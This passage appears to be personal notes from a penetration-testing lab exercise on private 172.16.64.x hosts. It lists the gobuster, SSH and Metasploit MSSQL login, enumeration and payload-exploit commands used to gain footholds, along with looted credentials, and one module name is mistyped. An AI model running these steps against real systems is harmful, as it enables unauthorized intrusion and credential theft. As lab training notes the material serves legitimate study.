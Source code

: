 ```
gobuster dir -u http://172.16.64.140:80/project/backup -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -P admin -U admin -z
```
> /test

LOOT
> database cred = fooadmin:fooadmin


### Box3 172.16.64.182 (ssh)
FOOTHOLD
```
ssh developer@172.16.64.182
```

### Box4 172.16.64.199 (ms-sql)
FOOTHOLD
```
msfconsole
```

```
use auxiliary/scanner/mssql/mssql_login
set RHOSTS 172.16.64.199
set USERNAME fooadmin
set PASSWORD fooadmin
run
```

```
use auxiliary/scanner/msql/msql_enum
set RHOSTS 172.16.64.199
set USERNAME fooadmin
set PASSWORD fooadmin
run
```

```
use exploit/windows/mssql/mssql_payload
set RHOSTS 172.16.64.199
set USERNAME fooadmin
set PASSWORD fooadmin
set LHOST tap0
run
```

```
download id_rsa.pub
```

LOOT
> ssh cred = developer:dF3334slkw

----

